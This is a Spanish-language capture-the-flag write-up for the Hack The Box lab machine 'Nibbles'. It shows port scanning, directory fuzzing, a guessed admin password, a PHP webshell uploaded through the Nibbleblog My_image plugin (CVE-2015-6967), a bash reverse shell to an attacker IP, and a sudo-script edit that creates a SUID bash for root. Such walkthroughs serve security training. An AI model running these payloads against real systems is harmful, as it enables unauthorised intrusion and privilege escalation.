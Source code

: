 # Informacion

+ Nombre: Nibbles
+ IP: 10.129.251.238
+ OS: Linux
+ Dificultad: Easy

# Enumeración

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n -vvv --open -oG allports 10.129.251.238
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Escaneo detallado:

```
nmap -p22,80 -sCV -oN target 10.129.251.238
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web

![web.png](Images/web.png)

En el código se menciona el directorio `/nibbleblog/` :

![code.png](Images/code.png)

De primeras no hay nada interesante:

![nibbles.png](Images/nibbles.png)

### Fuzzing

Ejecuto fuerza bruta de directorios:

```
wfuzz -c --hc 404 -u "10.129.251.238/nibbleblog/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```
000000001:   200        60 L     168 W      2985 Ch     "http://10.129.251.238/nibbleblog/"                                                                                           
000000062:   301        9 L      28 W       329 Ch      "content"                                                                                                                     
000000114:   301        9 L      28 W       328 Ch      "themes"                                                                                                                      
000000246:   301        9 L      28 W       327 Ch      "admin"                                                                                                                       
000000506:   301        9 L      28 W       329 Ch      "plugins"                                                                                                                     
000000884:   200        63 L     643 W      4624 Ch     "README"                                                                                                                      
000000922:   301        9 L      28 W       331 Ch      "languages"
```

Revela varios directorios interesantes.

En `/nibbleblog/README` se encuentra la versión de `Nibbleblog v4.0.3`:

![version.png](Images/version.png)

y en  `/nibbleblog/content/private/users.xml` se revela el usuario `admin`:

![admin.png](Images/admin.png)

# Arbitrary File Upload(CVE-2015-6967)

El plugin My_image de nibbleblog en versiones anteriores a 4.0.5, Permite a administradores ejecutar codigo remoto subiendo un archivo con extensión ejecutable, accediendo a el en `content/private/plugins/my_image/image.php`.


Hice fuzzing de nuevo con la extencion `.php` y revelo el archivo `admin.php` que contiene un panel de login: 

![login.png](Images/login.png)

Afortunadamente probando con el usuario`admin` encontrado antes y la contraseña `nibbles` accedo al dashboard:

![dashboard.png](Images/dashboard.png)

En la configuracion del plugin My_image subi un archivo php con una simple webshell:

```
<?php
system($_GET['crab'])
?>
```

![plugin.png](Images/plugin.png)

En `/nibbleblog/content/private/plugins/my_image/image.php?crab=id`

![id.png](Images/id.png)

# Shell como nibbler

Revshell:

```
image.php?crab=bash -c "bash -i >%26 /dev/tcp/10.10.14.103/443 0>%261"
```

Terminal en escucha:

```
root@kali /home/cangrejo # nc -lnvp 443     
listening on [any] 443 ...
connect to [10.10.14.103] from (UNKNOWN) [10.129.143.152] 46398
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt 
3c632e69************************
```

# PrivEsc

## Sudo

nibbler puede ejecutar monitor.sh como root y sin contraseña:

```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

`monitor.sh` es un script de shell diseñado para monitorear servicios o procesos.

El script se encontraba dentro de un archivo zip:

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

Probé a añadir un comando al final del script para comprobar si lo ejecuta:

![monitor.png](Images/monitor.png)

y funciona:

```
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ cat whoami.txt 
root
```

Agregue el siguiente payload para crear una copia de `bash` en el directorio tmp y con permisos SUID:

```
cp /bin/bash /tmp/crab.sh && chmod u+s /tmp/crab.sh
```

```
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ /tmp/crab.sh -p
crab.sh-4.3# whoami
root
crab.sh-4.3# cat /root/root.txt 
55e60a4914**********************
```

# 🦀
